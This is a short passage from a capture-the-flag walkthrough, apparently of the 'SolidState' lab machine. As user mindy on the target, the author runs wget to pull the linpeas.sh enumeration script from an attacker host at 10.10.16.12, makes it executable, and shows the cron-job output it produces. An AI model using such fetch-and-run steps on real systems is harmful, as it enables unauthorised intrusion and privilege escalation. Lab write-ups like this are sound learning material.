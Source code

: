 <br />
Transfer linpeassh to the victim machine.

{% raw %}
```sh
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ wget 10.10.16.12:8000/linpeas.sh
--2025-02-14 09:42:47--  http://10.10.16.12:8000/linpeas.sh
Connecting to 10.10.16.12:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 839912 (820K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                                                 100%[========================================================================================================================================>] 820.23K  1.07MB/s    in 0.7s    

2025-02-14 09:42:48 (1.07 MB/s) - ‘linpeas.sh’ saved [839912/839912]

${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ chmod +x
chmod: missing operand after ‘+x’
Try 'chmod --help' for more information.
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ chmod +x linpeas.sh
```
{% endraw %}

<br />
Give the peas a run.

{% raw %}
```sh
<snip>

╔══════════╣ Cron jobs
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#scheduledcron-jobs                                                                                                                                        
/usr/bin/crontab                                                                                                                                                                                                                            
incrontab Not Found
-rw-r--r-- 1 root root     722 May  3  2015 /etc/crontab                                                                                                                                                                                    

/etc/cron.d:
total 24
drwxr-xr-x   2 root root  4096 Apr 26  2021 .
drwxr-xr-x 121 root root 12288 May 27  2022 ..
-rw-r--r--   1 root root   285 May 29  2017 anacron
-rw-r--r--   1 root root   102 May  3  2015 .placeholder

/etc/cron.daily:
total 56
drwxr-xr-x   2 root root  4096 Apr 26  2021 .
drwxr-xr-x 121 root root 12288 May 27  2022 ..
-rwxr-xr-x   1 root root   311 May 29  2017 0anacron
-rwxr-xr-x   1 root root   539 Jul 18  2017 apache2
-rwxr-xr-x   1 root root  1474 Jun  1  2017 apt-compat
-rwxr-xr-x   1 root root   355 Oct 25  2016 bsdmainutils
-rwxr-xr-x   1 root root   384 Dec 12  2012 cracklib-runtime
-rwxr-xr-x   1 root root  1597 Feb 22  2017 dpkg
-rwxr-xr-x   1 root root    89 May  5  2015 logrotate
-rwxr-xr-x   1 root root  1065 Dec 13  2016 man-db
-rwxr-xr-x   1 root root   249 May 17  2017 passwd
-rw-r--r--   1 root root   102 May  3  2015 .placeholder
```